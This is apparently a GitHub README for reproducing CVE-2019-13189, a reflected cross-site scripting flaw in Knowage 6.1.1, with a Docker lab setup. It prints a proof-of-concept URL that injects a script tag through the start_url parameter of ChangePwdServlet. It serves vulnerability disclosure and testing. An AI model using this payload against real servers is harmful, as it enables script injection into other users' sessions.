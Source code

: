 # CVE-2019-13189

## About
* <https://nvd.nist.gov/vuln/detail/CVE-2019-13189>


## PoC / Exploit
* After authenticating access: ```http://SERVER_IP:8080/knowage/ChangePwdServlet?start_url=test"><script>alert(1)</script>test```
 

## Environment used

* Knowage 6.1.1

## Requirements
* git
* docker
* docker-compose
* At least **2GB RAM**

## Reproduction 
* Terminal
```bash
docker-compose up
```
* Web Browser
  * Go to ```http://SERVER_IP:8080/knowage/ChangePwdServlet?start_url=test"><script>alert(1)</script>test```, this performs XSS